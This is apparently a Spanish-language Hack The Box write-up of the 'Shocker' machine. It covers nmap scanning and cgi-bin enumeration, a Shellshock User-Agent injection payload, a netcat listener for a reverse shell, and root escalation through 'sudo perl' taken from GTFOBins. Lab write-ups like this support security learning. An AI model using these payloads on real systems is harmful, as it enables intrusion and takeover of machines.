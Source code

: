```yaml
---
title: Shocker - HTB Writeup
date: 2023-09-06 16:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /assets/img/post/shocker/adi-goldstein-EUsVwEOsblE-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Shocker es un máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

Esta máquina me resulta muy interesante ya que es la primera vez que voy a tocar el exploit ```Shellshock```

## **Reconocimiento**

Comenzamos con un escaneo de puertos utilizando ```nmap```:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts
```

![img](/assets/img/post/shocker/626f4269-71bd-4a1b-a55e-c2b827453f41.png)

Encontramos los puertos ```80``` y ```2222``` abiertos, vamos a ver que **servicios** se ejecutan en dichos puertos:

```bash
nmap -sCV -p80,2222 10.10.10.56 -oN versions
```

![img](/assets/img/post/shocker/7e3b09ac-648b-4229-b80d-2c105154baed.png)

Vemos que en el puerto ```80``` hay un servicio ```Apache``` y en el ```2222``` hay un servicio ```OpenSSH```

Vamos a ver el puerto ```80```, a ver que encontramos:

![img](/assets/img/post/shocker/1f0f0165-25ee-41ae-8baf-7b3b786a9068.png)

No encontramos nada, por lo que vamos a seguir con la **fase de reconocimiento**, a ver si podemos listar algun **directorio o archivo interesante**:

![img](/assets/img/post/shocker/c24da344-a70e-43f5-a53a-404137e1c77a.png)

Encontramos un directorio ```cgi-bin```, el cual suele tener cosas interesantes

Si volvemos a enumerar directorios desde esta ruta, nos encontraremos un archivo ```user.sh```, el cual al acceder a la ruta junto al archivo, nos hará la descarga automaticamente, lo descargaremos para ver que contiene:

![img](/assets/img/post/shocker/eb179a12-d186-4a41-b0f0-acd32adf742e.png)

Vemos que es un archivo que al ejecutarlo, guarda la hora en la que se ha ejecutado

Si buscamos información podemos encontrar que los archivos ```CGI``` suelen ser usados para explotar ```Shellshock```, así que vamos a realizar la **explotación**

## **Explotación**

Podemos ver en este [repositorio](https://github.com/opsxcq/exploit-CVE-2014-6271) como poder explotar ```Shellshock``` desde consola, nosotros lo haremos desde **Burpsuite**, aunque al final el resultado es el mismo

Primero vamos a ver si podemos ejecutar el ```Shellshock```

```bash
user-agent: () { :; }; echo; echo; /bin/bash -c 'id'"
```

![img](/assets/img/post/shocker/a287c41c-c780-42bb-b2f0-12015947b21b.png)

Como podemos ver, podemos inyectar comandos en el ```User-Agent```, vamos a conseguir una ```reverse shell```, con el oneline que usamos siempre para ello:

```bash
nc -lvnp 443
```

![img](/assets/img/post/shocker/3f8fb66f-9696-4160-8938-e07203953664.png)

Si nos ponemos en escucha con ```nc``` por el puerto indicado, conseguiremos **acceso al sistema** y a la **user flag**

![img](/assets/img/post/shocker/fb2428ff-0267-4e82-a421-4e9e9fdae12b.png)

## **Escalada de Privilegios**

Vamos a hacer un pequeño **reconocimiento**, para ver de que manera podemos escalar privilegios

Ejecutando ```sudo -l``` podemos ver que binarios podemos ejecutar como ```root```:

![img](/assets/img/post/shocker/06d78087-6e38-4455-b2dd-91e65d6dbb54.png)

Como vemos podemos ejecutar como ```root``` el binario ```perl```

Por lo tanto vamos a consultar [GTFOBins](https://gtfobins.github.io/) para buscar informacion sobre el binario ```perl```

> GTFOBins es un recurso web que nos ayudará muchísimo

Siguiendo los pasos de la web ejecutaremos:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/img/post/shocker/3e8fa848-ab6e-4e04-b9d1-cd40fe6b7c32.png)

Y Bingo! Conseguiremos **acceso** a la máquina como el usuario ```root```, y por tanto tambien a la **root flag**

![img](/assets/img/post/shocker/9b6268d5-3382-4ca6-b470-c96c5f9acfc6.png)

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
